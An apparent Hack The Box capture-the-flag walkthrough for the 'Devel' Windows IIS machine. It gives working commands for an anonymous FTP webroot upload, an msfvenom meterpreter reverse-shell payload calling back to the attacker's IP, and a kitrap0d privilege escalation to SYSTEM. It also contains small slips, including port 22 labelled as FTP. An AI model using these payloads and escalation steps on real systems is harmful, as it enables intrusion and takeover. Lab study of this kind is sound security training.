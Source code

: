 HTB - 4. Devel

1. `nmap -T4 -p- -A 10.10.10.5` shows 22 (FTP) with anonymous login (to webroot directory?), 80 (HTTP) with  Microsoft IIS httpd 7.5
2. Go to `10.10.10.5` which is a default web page
3. `dirbuster` (`dirb` and `gobuster` popular as well) with `http://10.10.10.5:80`, wordlist `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`, and change file-extension to `asm, asmx, asp, aspx, txt` because server is IIS
4. FTP: upload file to server
	```
	ftp 10.10.10.5
	anonymous
	anonymous
	ls
	pwd
	put dog.jpg
	ls
	```
	Go to `10.10.10.5/dog.jpg` and it executes.
	
5. `msfvenom`
	* [msfvenom cheatsheet 1](https://netsec.ws/?p=331)
	* [msfvenom cheatsheet 2](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)
	
	Create `reverse_tcp` payload:
	```
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > ex.aspx
	```
	
	Open up port to listen on:
	```
	sudo msfconsole
	use exploit/multi/handler
	options
	set payload windows/meterpreter/reverse_tcp
	options
	set LHOST 10.10.14.24
	run
	```
6. Back to FTP
	```
	binary <-- swith to binary instead of ascii
	put ex.aspx
	```
	Go to `10.10.10.5/ex.aspx` and shell popped
7. Hacked
	```
	sysinfo
	getuid
	```
	Result: We are `IIS APPPOOL\Web` not authority system.
	`getsystem` failed.
	
	Check to see which privilege escalation exploits might work:
	```
	background
	search suggester
	use post/multi/recon/local_exploit_suggester
	options
	set SESSION 1
	run
	```
	
	Run privilege escalation
	```
	use exploit/windows/local/ms10_015_kitrap0d
	options
	set SESSION 1
	options
	run
	options
	set lhost 10.10.14.24 <-- make sure using the right interface
	set lport 4445 <-- Need to use different port since 4445 already in use
	options
	run
	```
	Result: Shell popped with authority system
	
	



